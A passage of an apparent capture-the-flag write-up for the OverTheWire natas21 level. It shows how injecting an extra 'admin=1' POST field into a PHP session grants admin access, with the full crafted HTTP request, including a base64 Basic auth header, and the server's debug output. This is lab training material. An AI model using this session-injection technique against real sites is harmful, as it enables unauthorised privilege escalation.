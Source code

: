 This means if during a request that uses submit we can add our of values to the \$\_SESSION variable. If we add &admin=1 we will pass the print_credentials\(\) check on the main page.

```text
POST /index.php?debug HTTP/1.1
Host: natas21-experimenter.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Authorization: Basic bmF0YXMyMTpJRmVrUHlyUVhmdHppREVzVXIzeDIxc1l1YWh5cGRnSg==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

align=center&fontsize=100%25&bgcolor=yellow&submit=Update&admin=1

HTTP/1.0 200 OK
Date: Mon, 23 Sep 2019 12:09:42 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=kvklchlc4spv0iu9i6a5a4g2b7; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1015
Content-Type: text/html; charset=UTF-8
X-Cache: MISS from localhost
Via: 1.1 localhost:3128 (squid/2.7.STABLE9)
Connection: close
```

```php
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
    [debug] =>
    [align] => center
    [fontsize] => 100%
    [bgcolor] => yellow
    [submit] => Update
    [admin] => 1
)
```
